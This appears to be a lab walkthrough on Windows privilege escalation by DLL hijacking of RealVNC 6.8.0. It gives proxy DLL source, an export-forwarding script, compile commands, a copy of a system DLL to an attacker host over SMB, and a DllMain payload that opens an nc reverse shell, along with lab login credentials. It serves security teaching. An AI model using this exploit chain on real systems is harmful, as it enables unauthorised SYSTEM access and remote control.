







Abusing Vulnerable Software
Software installed on the target system can present various privilege escalation opportunities. As with drivers, organisations and users may not update them as often as they update the operating system. You can use the wmic tool to list software installed on the target system and its versions. The command below will dump information it can gather on installed software (it might take around a minute to finish):
wmic product get name,version,vendor
Remember that the wmic product command may not return all installed programs. Depending on how some of the programs were installed, they might not get listed here. It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.
Once we have gathered product version information, we can always search for existing exploits on the installed software online on sites like exploit-db, packet storm or plain old Google, amongst many others.
Using wmic and Google, can you find a known vulnerability on any installed product?
Make sure to click the Start Machine button before you continue to deploy the target machine in split-view. If you prefer connecting to the machine via RDP, you can use the following credentials:
User: thm-unpriv
Password: Password321
Case study: RealVNC 6.8.0
The target server is running RealVNC 6.8.0, which has been found vulnerable to privilege escalation via DLL hijacking by Triskele Labs. DLL hijacking consists of finding an application that tries to load a DLL library and trick it into loading a malicious DLL instead of the expected one, gaining the privileges of the application's process.
To better understand how this works, let's start by introducing DLL files.
Intro to DLLs
DLL stands for Dynamic-Link Libraries. DLLs provide a way to define code that can be reused across many applications. In its simplest form, DLLs are collections of functions that can be called from any executable linked against the DLL. The functions that a DLL makes available to the world are known as Exports. In this way, any application that requires using a function available in a DLL doesn't have to re-implement it but just call it from the DLL.

A DLL also includes a DllMain() function that acts as the Dll Entry Point and is called whenever a process or thread attaches or detaches from the DLL. This function is used to perform any initialisation when the DLL is loaded and any cleanup tasks when the DLL is unloaded.
DLL Loading Process
An application can link to a DLL in two ways, depending on the use case:
Load-Time Dynamic Linking:
The DLL is loaded when the application is started. This is normally used when an application depends on a DLL to work. In this case, the loading process is as follows:
★ The DLL will be searched on the system using the DLL Search Order (more on this later). If the DLL isn't available, the application fails to launch.
★ The process then checks the DLL's export table to see if it implements all the required methods. If any required method is missing, the application fails to load.
★ If all the required methods are available, the application calls the DLLMain() function from the DLL and continues execution.
Run-Time Dynamic Linking:
The DLL is linked at run-time, which is helpful for implementing optional features on your application that depend on third-party libraries, for example. In this case, the process is as follows:
★ The DLL will be searched on the system using the DLL Search Order. If the DLL doesn't exist, the application can decide to continue execution without crashing.
★ If the DLL file exists, the DLLMain() function from the DLL is called, and the application continues its normal execution.
★ Since no checks are made against the export table of the DLL, the application might end up trying to call functions not implemented on the DLL. The application can decide how to handle this to continue execution if required.
Independent on the way the DLL is linked, when loading a DLL, the following will occur:
★ By default, before attempting to search for a DLL on the file system, Windows will check if the DLL has already been loaded by the application, in which case it won't load it again.
★ Windows will then check the name of the requested DLL against a list of known DLLs. Windows will load known DLLs directly from the system folders.
★ Windows will use the standard DLL Search Order to find the correct DLL to load. The DLL Search Order states the order in which the operating system will check specific directories in search of the required DLL. This is needed because more than one copy of a DLL on a given system might exist.

From all the steps in the DLL Search Order, attackers are primarily interested in the ones marked in red, as they might allow them to insert DLLs of their own on the execution flow of other applications.
Exploiting RealVNC 6.8.0
RealVNC 6.8.0 allows unprivileged users to "repair" the software if needed in case of failures. This is handled by MSIExec.exe, the process in charge of .msi packages installations, which runs with SYSTEM privileges. When repairing RealVNC, MSIExec performs the following actions:

▪ Copy some files to the user's temp folder, located at C:\Users\<username>\AppData\Local\Temp\. This includes a copy of the vncserver executable named vncserver-old.exe. Notice that if an unprivileged user requests the repair, they hold complete control over their temp folder.
▪ MSIExec then executes vncserver-old.exe using SYSTEM privileges, which loads adsldpc.dll. Windows will follow the standard DLL search order and finds the DLL in C:\Windows\System32\adsldpc.dll.
Since we have write access to our temp folder, we can create a malicious DLL called adsldpc.dll on the application's directory. According to the DLL search order, as the application's directory has precedence over C:\Windows\System32, our DLL would get loaded instead of the original one, effectively hijacking the DLL.

All that remains is building a custom DLL and injecting our desired payload in the DLLMain() function so that it gets executed when the process loads it.
Notice, however, that the malicious DLL must provide all of the exports available in the original one, as we are dealing with a load-time linked library. Therefore, the program will check the DLL exports table before executing the DLLMain() function. While we could make a DLL with empty exports, this would likely crash the application after running our payload. To avoid this, we will create a Proxy DLL, which will forward any exported function calls back to the original DLL.
Creating a Proxy DLL
While in a regular DLL, the export table contains pointers to functions contained in the same DLL, proxy DLLs' export table will have forwarders pointing to functions on a different DLL.

To create a proxy DLL, we'll need to create two files:
▪ proxy.c: A standard C implementation of a DLL. The only method implemented will be the DLLMain() function, containing our payload.
#include <windows.h>
BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
if (fdwReason == DLL_PROCESS_ATTACH) {
system("whoami > C:\\output.txt");
}
return TRUE;
}
▪ proxy.def: A definition file to pass to the linker, where we will specify all of the export forwards back to the original DLL. The structure of the file will hold a line for each export where we will indicate the name of the export, followed by the DLL and method name where the calls will be forwarded, followed by an ordinal that specifies in which position of the export table will the method be:
EXPORTS
Method1=C:/Windows/System32/original.dll.Method1 @1
Method2=C:/Windows/System32/original.dll.Method2 @2
Before compiling our final DLL, we need a list of all the exports available in the original DLL. To this end, let's copy the original DLL in C:\Windows\System32\adsldpc.dll to our Attacker machine using impacket's smbserver.py or any other means available. For smbserver.py, you can use the following command to start a simple SMB server with a network share in the current directory of our AttackBox:
Kali Linux
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username thm-unpriv -password Password321 public share
This will create a share named public pointing to the share directory, which requires the username and password of our current windows session. After this, we can use the copy command in our windows machine to transfer adsldpc.dll to our AttackBox:
Command Prompt
C:\> copy C:\Windows\System32\adsldpc.dll \\ATTACKER_IP\public\
We will then use a slightly modified version of the get_exports.py script from the Cobalt-Strike Github repo (https://github.com/Cobalt-Strike/ProxyDLLExample/blob/main/get_exports.py), which will extract the names of all the required exports on the original adsldpc.dll and create a .def file with all the forwards needed. The modified script's code is the following:
import pefile
import argparse
parser = argparse.ArgumentParser(description='Target DLL.')
parser.add_argument('--target', required=True, type=str,help='Target DLL')
parser.add_argument('--originalPath', required=True, type=str,help='Original DLL path')
args = parser.parse_args()
target = args.target
original_path = args.originalPath.replace('\\','/')
dll = pefile.PE(target)
print("EXPORTS", end="\r\n")
for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
if export.name:
print(f" {export.name.decode()}={original_path}.{export.name.decode()} @{export.ordinal}", end="\r\n")
Copy the code into a file named get_exports.py and then use it with the --target parameter to point to the original DLL and the --originalPath parameter to indicate where the original DLL resides in the target machine:
Kali Linux
python3 get_exports.py --target adsldpc.dll --originalPath 'C:\Windows\System32\adsldpc.dll' > proxy.def
The resulting proxy.def file should have around 175 exports defined and proxied.
Now to finally create the proxy DLL, we will compile the proxy.c file and then ask the linker to use the proxy.def for export definitions. We will be using mingw-w64 to cross-compile the DLL directly from our Kali machine. If mingw-w64 isn't installed on your machine, you can use the following command to install it:
Kali Linux
sudo apt install gcc-mingw-w64-x86-64
And then compile our DLL with the following commands:
Kali Linux
x86_64-w64-mingw32-gcc -m64 -c -Os proxy.c -Wall -shared -masm=intel
x86_64-w64-mingw32-gcc -shared -m64 -def proxy.def proxy.o -o proxy.dll
The first command will compile proxy.c with the -c option, which won't run the linker and produce a proxy.o object file. The second command will take the proxy.o file and run it through the linker, which will also receive the proxy.def file with all of the exports we need for our proxy DLL. As a result, we will end up with the proxy.dll file we need to exploit RealVNC. Feel free to run get_exports.py into the new file to confirm it contains all the exports in the original DLL.
Putting it All Together
We will now copy the proxy.dll file into the target machine. Feel free to use any method you prefer for this. Once the DLL has been transferred, move it to the folder used by the repair process, changing its name to the name of the original DLL file we want to hijack:
Command Prompt
C:\> move proxy.dll C:\Users\thm-unpriv\AppData\Local\Temp\adsldpc.dll
To trigger the RealVNC repair process, open "Add or remove programs" from the start menu:
Search for VNC, and click the Modify button:

When asked which operation to perform, choose repair:

This will trigger the repair process and execute the payload in our proxy DLL. If all went well, you should now see a file on C:\output.txt.
Modify the proxy DLL's payload with a reverse shell to get the flag for this machine. For your convenience, nc64.exe can be found at C:\tools.
Note:
Example of proxy.c with a reverse shell connection. The "\\" Double backslash is very important.
#include <windows.h>
BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
if (fdwReason == DLL_PROCESS_ATTACH) {
system("C:\\tools\\nc64 -e cmd.exe 10.11.72.31 7777");
}
return TRUE;
}
END